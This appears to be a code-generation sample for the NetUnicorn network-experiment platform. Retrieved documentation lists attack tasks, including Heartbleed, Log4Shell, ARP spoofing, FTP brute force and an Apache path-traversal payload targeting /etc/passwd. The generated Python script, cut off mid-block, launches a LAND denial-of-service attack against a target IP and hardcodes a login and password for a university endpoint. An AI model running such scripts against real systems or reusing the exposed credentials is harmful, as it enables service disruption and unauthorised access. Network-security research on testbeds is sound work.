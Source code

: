 Chunk 2 (source: NetUnicorn Library: network_attacks Tasks): 

```
port: int = 443, count: int = 1, length: int = 0xFFFF, tls_version: Literal["tls10", "tls11", "tls12"] = "tls11", starttls_proto: Optional[str] = None, data: Optional[str] = None)`: Tests for the Heartbleed vulnerability (CVE-2014-0160).\\n- `network_attacks.heartbleed2.Heartbleed(IPaddress: str, port: int, starttls: bool = False, debug: bool = False)`: An alternative implementation for testing Heartbleed.\\n- `network_attacks.icmp.ICMPRedirection(target: str, old_gw: str, new_gw: str)`: Sends ICMP redirect packets to `target`, instructing it to use `new_gw` instead of `old_gw`.\\n- `network_attacks.land.LANDAttack(target_ip: str, source_port: int = 1001, destination_port: int = 80)`: Performs a LAND attack by sending a packet with the same source and destination IP/port to `target_ip`.\\n- `network_attacks.log4j.CVE202144228(cc_address: str, hosts: list[str])`: Attempts to trigger the Log4Shell vulnerability (CVE-2021-44228) by sending a crafted User-Agent to `hosts`, pointing to a
```

Chunk 3 (source: NetUnicorn Library: network_attacks Tasks): 

```
Tasks from `netunicorn.library.tasks.network_attacks` and its submodules, for simulating various network attacks. Use responsibly and only on authorized systems.\\n- `network_attacks.arp.ArpSpoof(target_ip: str, spoof_ip: str, interface: str = "eth0", duration_seconds: int = 60)`: Performs ARP spoofing between `target_ip` and `spoof_ip` on the given `interface` for `duration_seconds`.\\n- `network_attacks.cve202141773.CVE202141773(target: str, path: str = "/cgi-bin/.%2e/%2e%2e/%2e%2e/etc/passwd")`: Attempts to exploit Apache path traversal (CVE-2021-41773) against `target` using the specified `path`.\\n- `network_attacks.ftp.BruteForceFTP(target: str, username: str, wordlist: list[str])`: Attempts to brute-force FTP login credentials.\\n- `network_attacks.heartbleed.Heartbleed(host: str, port: int = 443, count: int = 1, length: int = 0xFFFF, tls_version: Literal["tls10", "tls11", "tls12"] = "tls11", starttls_proto: Optional[str] = None, data: Optional[str] = None)`: Tests for the
```

### Generated Code:
```python
from netunicorn.client.remote import RemoteClient, RemoteClientException
from netunicorn.base.pipeline import Pipeline
from netunicorn.library.tasks.network_attacks.land import LANDAttack
from netunicorn.base.experiment import Experiment, ExperimentStatus
from netunicorn.base.environment_definitions import ShellExecution
from netunicorn.base.nodes import NodePool
import time

# Credentials
endpoint = "https://pinot.cs.ucsb.edu/netunicorn"
login = "293nmay25"
password = "4Ij9Du65jrqj"

# Client Initialization
client = RemoteClient(endpoint=endpoint, login=login, password=password)

# Pipeline Creation
pipeline = Pipeline()
land_task = LANDAttack(target_ip="192.168.1.100", source_port=1337, destination_port=80)
pipeline.then(land_task)

# Node Selection
node_pool = client.get_nodes()
working_nodes = node_pool.take(1)

# Experiment Object and Definition
experiment = Experiment()
experiment.environment_definition = ShellExecution()
experiment.map(pipeline, working_nodes)

# Experiment Naming and Cleanup
experiment_name = "land_attack_experiment_{timestamp}"
try:
    client.delete_experiment(experiment_name)
```